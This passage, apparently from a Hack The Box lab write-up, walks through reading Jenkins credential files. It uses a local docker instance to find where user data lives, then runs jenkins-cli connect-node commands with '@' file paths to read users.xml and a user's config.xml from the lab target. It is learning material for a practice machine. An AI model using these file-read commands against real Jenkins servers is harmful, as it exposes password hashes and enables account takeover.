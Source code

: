 We grab the password shown on screen and set up jenkins on localhost:8080
We then get to the shell of the docker instance running
```bash
docker exec -it <docker id> /bin/bash
```

![](Files/image4.png)

We find the users directory in /var/jenkins_home, where the creds are stored in <username_gibberish numbers>, whose filename can be found in users.xml
![](Files/image5.png)

we exfil this data on real htb machine
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/var/jenkins_home/users/users.xml"
```
We get this, which may be different of what you will get
```
jennifer_12108429903186576833
```

We then try to get contents of this user's config file
```
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

![](Files/image6.png)
